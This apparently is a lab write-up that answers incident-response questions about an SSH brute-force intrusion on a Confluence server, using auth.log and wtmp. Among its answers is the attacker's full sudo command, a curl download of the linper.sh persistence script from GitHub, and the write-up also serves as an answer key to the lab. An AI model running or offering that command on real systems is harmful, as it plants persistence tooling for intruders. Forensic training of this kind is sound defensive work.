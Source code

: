 # Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

# Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response:

### Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

### The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?
Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

### Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
37

### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
cyberjunkie

### What is the MITRE ATT&CK sub-technique ID used for persistence?
T1136.001

### How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
279

### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

